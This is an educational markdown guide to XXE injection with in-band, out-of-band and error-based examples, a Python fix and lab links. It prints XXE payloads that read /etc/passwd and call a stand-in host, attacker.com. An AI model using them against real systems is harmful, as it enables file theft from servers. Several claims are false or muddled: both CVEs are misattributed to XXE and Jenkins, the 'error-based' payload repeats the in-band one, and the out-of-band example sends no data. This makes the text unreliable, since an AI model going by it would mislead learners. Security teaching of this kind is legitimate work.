


## XXE Injection Complete Guide

### Introduction to XXE Injection

XML External Entity (XXE) injection is a type of attack that exploits the way an application processes XML input. This attack can lead to various security issues such as data exfiltration, denial of service, and remote code execution. Understanding the different types of XXE injection—In-band, Out-of-band, and Error-based—is crucial for both attackers and defenders.

### Background Theory

#### What is XML?

XML (Extensible Markup Language) is a markup language designed to store and transport data. Unlike HTML, which focuses on displaying data, XML is used to describe the structure and content of data. XML documents consist of elements, attributes, and text content.

#### XML Entities

Entities in XML are placeholders that can be replaced with specific values. There are two types of entities:

1. **Internal Entities**: Defined within the document itself.
2. **External Entities**: Defined outside the document, often pointing to external resources like files or URLs.

#### XML DTD (Document Type Definition)

A Document Type Definition (DTD) is a set of rules that define the structure of an XML document. It can include entity declarations, element definitions, and attribute specifications. DTDs can be embedded within the XML document or referenced externally.

### Types of XXE Injection

#### In-band XXE Injection

In-band XXE injection occurs when the attacker receives the response directly on the screen. This type of attack is straightforward because the attacker can immediately see the results of their payload.

**Example:**

Consider an application that processes XML input to display the number of units left in stock for each item. An attacker can inject an XXE payload to read sensitive files on the server.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<item>
    <name>&xxe;</name>
</item>
```

When this payload is processed, the `&xxe;` entity will be replaced with the contents of `/etc/passwd`, which might be displayed directly on the screen.

#### Out-of-band XXE Injection

Out-of-band XXE injection occurs when the attacker does not receive a direct response on the screen. Instead, the application is triggered to send the response to an out-of-band server controlled by the attacker.

**Example:**

Suppose an application performs a request to fetch data from an XML document. An attacker can inject an XXE payload to make the application send data to their server.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "http://attacker.com/log">
]>
<item>
    <name>&xxe;</name>
</item>
```

When this payload is processed, the application will attempt to fetch data from `http://attacker.com/log`, and the attacker can capture the response.

#### Error-based XXE Injection

Error-based XXE injection occurs when the attacker can infer the response of the XXE payload by manipulating the application to generate an error. This type of attack is more subtle and requires careful analysis of the error messages.

**Example:**

Consider an application that validates the output to ensure it is an integer. If the output is not an integer, the application suppresses the error and outputs a generic error message.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<item>
    <name>&xxe;</name>
</item>
```

If the application attempts to process this payload and encounters an error due to the non-integer output, the attacker can infer the presence of the file based on the error message.

### Real-World Examples

#### Recent CVEs and Breaches

- **CVE-2018-11776**: A vulnerability in the Apache Struts framework allowed attackers to exploit XXE injection to execute arbitrary code.
- **CVE-2019-11510**: A vulnerability in the Jenkins CI/CD platform allowed attackers to exploit XXE injection to gain unauthorized access to sensitive information.

### Detailed Example of Out-of-Band XXE Injection

#### Scenario

Imagine an application that allows users to view the number of units left in stock for each item. The application performs an HTTP request to fetch this data from an XML document.

#### Vulnerable Code

The following Python code demonstrates a vulnerable scenario where the application processes XML input without proper validation.

```python
import xml.etree.ElementTree as ET
import requests

def get_stock_info(product_id):
    url = f"http://example.com/api/products/{product_id}"
    response = requests.get(url)
    xml_data = response.text
    root = ET.fromstring(xml_data)
    name = root.find('name').text
    quantity = root.find('quantity').text
    return f"{name}: {quantity}"

print(get_stock_info(1))
```

#### Exploitation

An attacker can inject an XXE payload to make the application send data to their server.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "http://attacker.com/log">
]>
<item>
    <name>&xxe;</name>
    <quantity>10</quantity>
</item>
```

When this payload is processed, the application will attempt to fetch data from `http://attacker.com/log`, and the attacker can capture the response.

### How to Prevent / Defend Against XXE Injection

#### Detection

To detect XXE injection vulnerabilities, you can use static and dynamic analysis tools. Static analysis tools can identify potential vulnerabilities in the code, while dynamic analysis tools can simulate attacks to test the application's behavior.

#### Prevention

1. **Disable External Entities**: Ensure that your XML parser is configured to disable external entity resolution. This prevents the parser from fetching external resources.

2. **Input Validation**: Validate all XML input to ensure it conforms to expected formats and does not contain malicious content.

3. **Use Secure Libraries**: Use libraries that are known to be secure against XXE injection. For example, in Python, use `lxml` instead of `xml.etree.ElementTree`.

4. **Secure Coding Practices**: Follow secure coding practices to avoid common pitfalls. For example, avoid using `eval()` or similar functions to process XML input.

#### Secure Code Fix

Here is an example of how to securely process XML input in Python using `lxml`:

```python
from lxml import etree
import requests

def get_stock_info(product_id):
    url = f"http://example.com/api/products/{product_id}"
    response = requests.get(url)
    xml_data = response.text
    parser = etree.XMLParser(resolve_entities=False)
    root = etree.fromstring(xml_data, parser)
    name = root.find('name').text
    quantity = root.find('quantity').text
    return f"{name}: {quantity}"

print(get_stock_info(1))
```

### Mermaid Diagrams

#### Request/Response Flow



#### Attack Chain



### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive challenges and labs to practice XXE injection.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security techniques, including XXE injection.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is vulnerable to many types of attacks, including XXE injection.

By thoroughly understanding the concepts, mechanisms, and preventive measures related to XXE injection, you can better protect web applications from these types of attacks.

---
<!-- nav -->
[[08-XXE Injection A Comprehensive Guide|XXE Injection A Comprehensive Guide]] | [[Web Security (PortSwigger)/08-XXE Injection/01-XXE Injection Complete Guide/00-Overview|Overview]] | [[10-Advanced Topics in XXE Injection|Advanced Topics in XXE Injection]]
